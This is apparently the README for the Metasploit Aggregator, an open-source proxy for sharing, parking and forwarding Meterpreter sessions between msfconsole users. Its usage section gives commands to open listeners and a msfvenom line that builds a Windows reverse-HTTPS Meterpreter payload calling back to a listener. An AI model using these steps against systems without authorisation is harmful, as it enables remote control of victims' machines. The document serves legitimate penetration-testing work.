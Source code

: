 Metasploit [![Build Status](https://travis-ci.org/rapid7/metasploit-aggregator.svg?branch=master)](https://travis-ci.org/rapid7/metasploit-aggregator) [![Code Climate](https://img.shields.io/codeclimate/github/rapid7/metasploit-aggregator.svg)](https://codeclimate.com/github/rapid7/metasploit-aggregator)
==
The Metasploit Aggregator is released under a BSD-style license. [See
LICENSE](https://github.com/rapid7/metasploit-aggregator/blob/master/LICENSE) for more details.

Bug tracking and development information can be found at:
 https://github.com/rapid7/metasploit-aggregator

New bugs and feature requests should be directed to:
  https://github.com/rapid7/metasploit-aggregator/issues/new

Questions and suggestions can be sent to:
  https://groups.google.com/forum/#!forum/metasploit-hackers

## Metasploit Aggregator

The Metasploit Aggregator is a proxy for Meterpreter sessions. Normally, Meterpreter sessions connect directly to a Metasploit listener. However, this has a few problems:

 1. Multiple users cannot easily share the session once it is established, without some sort of external multiplexing scheme, such as running msfconsole in a screen session. While Metasploit Pro solves this issue to a certain extent, it is also limited by the number of users that can simultaneously  interact with shared sessions.

 1. Running a full msfconsole on a remote listener is resource intensive because it uses multiple threads per connection. It has a hard time scaling reliably to thousands of sessions, and even fewer on Windows platforms.

 1. The design requires either running different copies of msfconsole, or putting all of your eggs in one basket. It is difficult to distribute sessions across many endpoints and have a global view of them all.

The Metasploit Aggregator solves these problems by implementing an event-driven listener that stands between msfconsole and Meterpreter. It can scale to thousands of connections, but only needs to make a single connection with Metasploit Framework to manage them all.  Sessions can be shared between multiple users without any changes to the Meterpreter session
Itself, such as by modifying the session transport configuration. The redirection of a session occurs behind the scenes on the control channel between Metasploit Aggregator and msfconsole.

## Glossary

Metasploit Aggregator introduces a few new concepts.

* A **‘parked’** session is one that is terminated entirely by Metasploit Aggregator. This means that the minimal interaction with the session to simply keep it alive is handled by the aggregator automatically. A user can attach to a session at any time in order to interact with it.

* A **‘cable’** is a listening port that the aggregator opens to accept new connections from Meterpreter. This is analogous to starting a handler on msfconsole.

* The **‘default forward’** address is the location of a msfconsole instance that serves as a helper for Metasploit Aggregator. Metasploit Aggregator currently does not know how to handle staged sessions, request session details, or how to deal with AutoRun scripts. The default forward is where a session connecting to a cable is redirected on initial connection. The connection is enumerated for details of the target and continues to communicates with the default forward until requested specifically by another console or parked by request of the default forward.

* A **‘forwarded’** session is one that terminates at the aggregator, but is then proxied to a msfconsole instance. The session is forwarded over a control channel connection to the aggregator. When you are done interacting with a session, it can be moved back to a ‘parked’ state for other users to use. Note: any user can steal a session if desired and forward it to a different msfconsole instance.

## Installing
**Curently Unavailable due to issue #6** ~~Standalone installation: ```gem install metasploit-aggregator```.~~

Intermediate solutions are available:  
* Install Metasploit on the host used as the aggregator and start from path provided by install
* Checkout source from git and install dependencies to execute in limited context:
  * `cd <PATH_TO_CHECKOUT>/ruby`
  * `bundle install`
  * `./bin/metasploit-aggregator`

## Usage

To use Metasploit Aggregator, first start an instance of the aggregator itself. This is automatically packaged with Metasploit Framework, or can be installed standalone by running `gem install metasploit-aggregator`. The aggregator binary is called `metasploit-aggregator`, and listens on address 127.0.0.1, port 2447. Because the aggregator does not provide encryption or authentication by itself, to connect to a remote instance, we suggest using SSH port forwarding or some other tunneling technology to reach a remote aggregator.

On the system hosting the aggregator:
```
metasploit-framework$ metasploit-aggregator 
2017-03-06 13:17:32 -0600 Starting administration service on 127.0.0.1:2447
```

On the client system:
```
ssh user@aggregator -L 127.0.0.1:2447:127.0.0.1:2447
```

Next, start a msfconsole instance and load the aggregator plugin. This will allow you to interact with the remote aggregator. This is also required to setup the default forward msfconsole instance. Setup the msfconsole instance to be the default forward. This instance will see all connections when they first arrive.

```none
metasploit-framework$ ./msfconsole 
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v4.14.1-dev-5383900                  ]
+ -- --=[ 1627 exploits - 928 auxiliary - 282 post        ]
+ -- --=[ 472 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > load aggregator 
[*] Aggregator interaction has been enabled
[*] Successfully loaded plugin: aggregator
msf > aggregator_connect 127.0.0.1:2447
[*] Connecting to Aggregator instance at 127.0.0.1:2447...
msf > 
```

Startup a new cable to begin listening for Meterpreter sessions from the aggregator. You can optionally specify an SSL certificate for it to serve over HTTPS as well. You can verify that the cable is listening with the `aggregator_cables` command. This will also start a new handler automatically on the default forward instance of msfconsole to handle new sessions as they arrive.

```
msf > aggregator_cable_add 192.168.1.10:8443
msf > aggregator_default_forward 
msf >
```

Now, point a Meterpreter session at the cable address and port. You should see a new session on the default forward console. You can now park this session with the aggregator_session_park command.

```
C:\metasploit-framework> msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.1.10 LPORT=8443 -f exe -o launch-stageless.exe
C:\metasploit-framework> launch-stageless.exe
```

Resulting session created:

```
msf > [*] Meterpreter session 1 opened (127.0.0.1:53414 -> 127.0.0.1:53519) at 2017-03-06 13:46:23 -0600
```

To view all available sessions, use the aggregator_sessions command:

```
msf > aggregator_sessions
[*] Sessions found:
[*] 	 Remote ID: 1
[*] 	      Type: meterpreter windows
[*] 	      Info: DESKTOP-KAO0P3O\user @ DESKTOP-NAME
[*] 	    Tunnel: 192.168.1.10:8443 -> 192.168.1.11:53528
[*] 	       Via: exploit/multi/handler
[*] 	      UUID: 8121940d2f5c4b1f/x86=1/windows=0/2016-12-15T22:03:16Z
[*] 	 MachineID: 1e2b16f37eab2324b9089cd93f16533b
[*] 	   CheckIn: 3s ago
[*] 	Registered: Not Yet Implemented
[*] 	   Forward: 50ab485d-dbe3-4045-95c4-c9abd45c1683
[*] 	Session ID: 1
[*] 
```

To forward an available session to your console, use the aggregator_session_forward command:

```
msf > aggregator_sessions
[*] Sessions found:
[*] 	 Remote ID: 1
[*] 	      Type: meterpreter windows
[*] 	      Info: DESKTOP-KAO0P3O\user @ DESKTOP-NAME
[*] 	    Tunnel: 192.168.1.10:8443 -> 192.168.1.11:53528
[*] 	       Via: exploit/multi/handler
[*] 	      UUID: 8121940d2f5c4b1f/x86=1/windows=0/2016-12-15T22:03:16Z
[*] 	 MachineID: 1e2b16f37eab2324b9089cd93f16533b
[*] 	   CheckIn: 6s ago
[*] 	Registered: Not Yet Implemented
[*] 	   Forward: parked
[*] 
msf > aggregator_session_forward 1
msf > [*] Meterpreter session 2 opened (127.0.0.1:53414 -> 127.0.0.1:54066) at 2017-03-06 13:50:51 -0600
```

Finally, to disconnect from the aggregator, use the aggregator_disconnect command:

```
msf > aggregator_disconnect 
[*] 127.0.0.1 - Meterpreter session 2 closed.
msf > 
```

During disconnect, the console will park any sessions explicitly requested by the user.  If the console is registered as the “default forward” any sessions that have not been specifically requested will park, however the next console that registers as the default forward will be passed these passively parked sessions.

## Contributing
[Contributing](https://github.com/rapid7/metasploit-aggregator/blob/master/CONTRIBUTING.md).

Expanding protobuf service use
```grpc_tools_ruby_protoc -I ../protos --ruby_out=lib --grpc_out=lib ../protos/metasploit/aggregator/*```


